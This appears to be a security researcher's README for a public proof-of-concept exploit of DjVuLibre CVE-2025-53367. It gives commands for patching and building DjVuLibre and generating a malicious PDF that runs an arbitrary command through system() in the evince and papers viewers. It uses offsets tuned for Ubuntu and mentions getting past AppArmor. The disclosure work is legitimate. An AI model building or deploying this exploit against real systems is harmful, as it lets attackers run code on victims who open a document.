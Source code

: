 # Proof of concept for DjVuLibre CVE-2025-53367

This poc uses CVE-2025-53367 to achieve code execution in the
default PDF viewer on many Linux distributions:
[evince](https://gitlab.gnome.org/GNOME/evince) or
[papers](https://gitlab.gnome.org/GNOME/papers).

Because the DjVuLibre file format is quite complicated, it was
easiest to create the poc by reusing the DjVuLibre codebase,
and modifying one of its tools to generate the poc file. So to
build the poc, you need to clone the official DjVuLibre repo
and then apply a patch:

```bash
git clone https://git.code.sf.net/p/djvu/djvulibre-git DjVuLibre-poc-CVE-2025-53367
cd DjVuLibre-poc-CVE-2025-53367
git checkout 4a285e8da5cd9a2a6b296242a952ee96e519280d
git apply ../DjVuLibre-poc-CVE-2025-53367.diff
```

Build it like this:

```bash
./autogen.sh --prefix=`pwd`/install
make install
```

Now generate the poc file like this:

```bash
./install/bin/c44 0x1010 0x4770 "google-chrome https://www.youtube.com/watch?v=dQw4w9WgXcQ" plucky.pdf  # Ubuntu 25.04
./install/bin/c44 0x1010 0x4360 "google-chrome https://www.youtube.com/watch?v=dQw4w9WgXcQ" noble.pdf   # Ubuntu 24.04
```

The first two parameters are offsets that need to be tuned for
different Linux distributions. The first is the distance between two
pointers in `libdjvulibre.so` and the second is the distance between
two pointers in `libc.so`. The third parameter is the command string
that will be passed to `system()`. Note that evince/papers run under
an [AppArmor](https://apparmor.net/) profile which will block some
commands. It's not super-restrictive, so there are ways of getting
past it. You can use the `aa-exec` tool to experiment with what's
possible:

```bash
aa-exec -d -v -p /usr/bin/papers /bin/bash -c "echo 1337 > ~/pwned.txt"
```

## Original fuzzer-generated poc

We published this (much simpler) version of the poc sooner, to help
people quickly test whether they're running a vulnerable version of
DjVuLibre. This poc only causes the DjVuLibre library to crash.

[Fuzzer-generated poc file](./fuzzer-poc.djvu)

## Links:

* https://github.blog/security/vulnerability-research/cve-2025-53367-an-exploitable-out-of-bounds-write-in-djvulibre/
* https://www.openwall.com/lists/oss-security/2025/07/03/1
* https://securitylab.github.com/advisories/GHSL-2025-055_DjVuLibre/
* https://github.com/kevinbackhouse/DjVuLibre-poc-CVE-2025-53367 (this same poc in a standalone git repo)
